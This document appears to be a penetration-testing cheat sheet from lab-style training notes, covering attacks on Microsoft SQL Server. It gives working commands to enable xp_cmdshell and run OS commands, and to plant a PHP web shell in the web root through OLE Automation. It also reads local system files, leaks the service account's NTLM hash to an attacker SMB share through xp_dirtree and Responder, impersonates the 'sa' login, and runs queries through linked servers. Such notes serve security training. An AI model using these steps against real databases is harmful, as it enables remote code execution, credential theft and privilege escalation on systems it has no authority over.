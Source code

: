 #MSSQL
Supports 2 [Auth Mechanisms](https://learn.microsoft.com/en-us/sql/connect/ado-net/sql/authentication-sql-server?view=sql-server-ver16)

|**Authentication Type**|**Description**|
|---|---|
|`Windows authentication mode`|This is the default, often referred to as `integrated` security because the SQL Server security model is tightly integrated with Windows/Active Directory. Specific Windows user and group accounts are trusted to log in to SQL Server. Windows users who have already been authenticated do not have to present additional credentials.|
|`Mixed mode`|Mixed mode supports authentication by Windows/Active Directory accounts and SQL Server. Username and password pairs are maintained within SQL Server.|

## Connect 

```cmd
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30
```

```shell
sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h
```

```shell
mssqlclient.py -p 1433 julio@10.129.203.7 
```
Add -windows-auth or .\\ if local account
## MSSQL default system schemas/databases:

- `master` - keeps the information for an instance of SQL Server.
- `msdb` - used by SQL Server Agent.
- `model` - a template database copied for each new database.
- `resource` - a read-only database that keeps system objects visible in every database on the server in sys schema.
- `tempdb` - keeps temporary objects for SQL queries.

## Using MSSQL
show databases 
`SELECT name FROM master.dbo.sysdatabases`
Select DB 
`USE htbusers`
Show Tables
`SELECT * FROM htbusers.INFORMATION_SCHEMA.TABLES`
Show Entries 
`SELECT * FROM users`

## Execute commands 
```mssql
xp_cmdshell 'whoami'

Go
```

#### Enable xp_cmdshell
```mssql
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```

## Write to Files 
Need to enable [Ole Automation Procedures](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option?view=sql-server-ver16)
```mssql
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```
## Create a file 
```mssql
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```
## Read Local files 
```mssql
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

## Capturing MSSQL Service hash
#responder
Start [Responder](https://github.com/lgandx/Responder)/ [Impacket-smbserver](https://github.com/fortra/impacket)
```shell
sudo responder -I tun0
```
```shell
sudo impacket-smbserver share ./ -smb2support
```
#### XP_DIRTREE Hash
```mssql
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO
```

#### XP_SUBDIRS Hash
```mssql
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```

## Impersonate Users 
Special permission named Impersonate. 
### Identify users you can impersonate 
```mssql
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```
### Verify Current user and role  
```mssql
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```
### Impersonate a user 
```mssql
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```
#### Note
It's recommended to run `EXECUTE AS LOGIN` within the master DB, because all users, by default, have access to that database. If a user you are trying to impersonate doesn't have access to the DB you are connecting to it will present an error. Try to move to the master DB using `USE master`.

## Communicate with Other Databases 
[Linked servers](https://learn.microsoft.com/en-us/sql/relational-databases/linked-servers/create-linked-servers-sql-server-database-engine?view=sql-server-ver16)

Allow DB engines to execute a Transact-SQL statement. 
Search 
```mssql
1> SELECT srvname, isremote FROM sysservers
2> GO
```
Identify User used for the connection
```mssql
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO
```
